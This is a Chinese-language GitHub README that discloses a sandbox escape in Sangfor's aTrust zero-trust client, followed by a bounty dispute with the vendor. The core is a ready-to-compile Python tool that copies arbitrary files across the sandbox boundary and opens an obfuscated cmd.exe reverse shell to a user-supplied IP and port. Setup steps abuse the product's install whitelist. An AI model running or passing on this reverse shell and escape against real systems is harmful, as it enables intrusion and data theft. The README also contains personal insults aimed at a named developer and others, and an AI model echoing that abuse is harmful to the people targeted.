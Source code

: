 # [正式申明 <-- 点击此处](https://github.com/DaxiaSec/officalSM)


# SXF_aTrust_sandbox_bypass
深信服零信任沙箱逃逸( 正常功能，所以我也不打算再提交CNVD, 给使用这款产品的用户介绍下这个神奇的功能效果 ）

![Visitor Count](https://profile-counter.glitch.me/SXF_aTrust_sandbox_bypass/count.svg)

# 耻辱柱
@hluwa https://github.com/DaxiaSec/SXF_aTrust_sandbox_bypass/issues/10
此人无德，有五：

* 其一，擅于意淫，本项目或 issue 下未说过本人技术如何牛逼，从事实角度出发描述一个正常功能，也未瞧不起任何同行，本来安全圈就是互帮互助，通过开源学习到了很多技术和知识，而且入行以来也从未割韭菜而是低调地做安全行业本分的事情，请问您是如何意淫到本人吹嘘自己牛逼的？
* 其二，颠倒黑白，一个描述事实的项目，为何在你眼里变成卖惨？我虽是个人，面对的是一个厂商，在道义正确的情况下，我没有屈服和让步，在知道他们不会止步于此时，但我还会继续面对，争取合法权益，这是一种你一辈子都拿不出的勇气。
* 其三，罔顾现实，你说我在公共社区“拉屎”，暂且不说你是有什么权利对待他人的项目，就事实而言，我不得向你介绍一下这个项目的由来，背景嘛？这必然会需要涉及到介绍厂商和具体的场景，可是一谈事实，你却又说要谈技术，正也是你，反也是你。一个事实都不谈的人，有何脸面立于天地之间？
* 其四，品质低劣，我为自己发声，不知为何得罪于你。聊事实，不谈。聊技术，说我在吹自己牛。最后给人按上自己意淫的 title，你自己看看在 issue 的结语，是不是在说你自己？
* 其五，自私自利，害人害己。厂商说 Github 是境外，赛博鼠说 Github 是卖国。你不在乎。你自己 Github 用得美滋滋，还自诩公共社区“粪便”管理员。因为你只看到自己的利益，到时候卖国的大棒打到你头上估计你比谁都会叫唤。Github 本来就是优秀项目走进来、走出去的很好的平台，某些人自己用 Github 却容不得别人使用，还想指挥别人按照他的想法删减内容，这种人格分裂，自私自利，实属罕见。


https://github.com/DaxiaSec/SXF_aTrust_sandbox_bypass/issues/12

# 一、功能介绍
* 环境：鹏程众测
* 类型：sandbox bypass
* 危害：无，正常业务功能罢了
* 权限：登陆后

## 1. 将如下py编译为exe
```python
import string
import random

def random_string(length):
    return ''.join(random.choice(string.ascii_letters) for m in range(length))

def readanyfile(filepath):
    with open(filepath,"rb") as f:
        contentbytes = f.read()
    print(contentbytes)
    return contentbytes

def writeanyfile(filepath, contentbytes):
    contentbytes = contentbytes
    with open(filepath,"wb") as f:
        f.write(contentbytes)

def reverseshell(ip,port):
    try:
        (lambda __y, __g, __contextlib: [[[[[[[(s.connect((ip, port)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))
    except:
        pass


def main():
    c = input("[1] 文件逃逸 [2] 反弹shell [3]退出:\n")
    if c == "1":
        print("[1-1] 验证：数据进入沙箱")
        in_sand = input("沙箱内文件路径:\n")
        writeanyfile(in_sand, "flag_{}_".format(random_string(20)).encode())
        print("请确认沙箱内{}文件写入flag\n\n".format(in_sand))
        
        print("[1-2]验证：数据出沙箱")
        out_sand = input("沙箱外文件路径:\n")
        writeanyfile(out_sand,readanyfile(in_sand))
        print("请确认沙箱外{}文件与沙箱内文件数据一致\n\n".format(out_sand))
    elif c == "2":
        ip = input("IP:\n")
        port = input("PORT:\n")
        reverseshell(ip,int(port))
    elif c=="3":
        exit()

while True:
    main()
```

pyinstaller -F taoyi_yanshi.py

## 2. 在安装名单配置上编译出的taoyi_yanshi.exe
功能名称是: 程序安装白名单

功能描述是(此处一字不漏): 此功能可用于无痕模式时保护数据不被自动清除；也可用于解决程序在工作空间安装后使用异常问题(名单内的安装包在工作空间安装时，释放的文件会落盘到个人空间，安装完成后程序产生的数据会落盘到工作空间，即程序安装在个人空间，但运行仍在工作空间)

你可能会好奇，在登录后台有专门一页可以配置安全策略，如'文件导入导出控制'，'剪切板拷贝控制'等，那儿不是配置安全策略的？
想多了，根本不需要那么复杂，配置安装名单比配置策略好用多了，而且其可以让安全策略完全失效，毕竟哪位睿智能想到避免清空数据的功能可以穿越沙箱。
是的，不要怀疑自己，就是这么牛逼。


## 3. 效果
* 程序可以沙箱内外任意写
* 程序落地数据，明文可读
![](1.png)
![](2.png)

# 二、交涉过程
* 5.10 发现问题
* 5.14 沟通情况，电话说需证明反弹shell, **给出了收录价格**
* 5.18 提交漏洞详情，证明反弹shell
* 5.20-5.30 争议
* 5.30 发群里仲裁
* 5.30 - 6.10 说价格不合适，现在是讨论价格？是你们压根不认为是漏洞，要吃掉吧，然后不回消息


### 仲裁情况？
![](3.png)

群聊完整图：

![](z1.jpg)

![](z2.jpg)

上面就是完整的聊天记录，请问哪里看出来有群友否认这个不是漏洞？？

### 为什么不让小团体仲裁？

赛博大佬说用github都是卖国的，小心赛博大佬黑了你们。

留个位置先，这位更是重量级傻狗。

![](4.jpg)

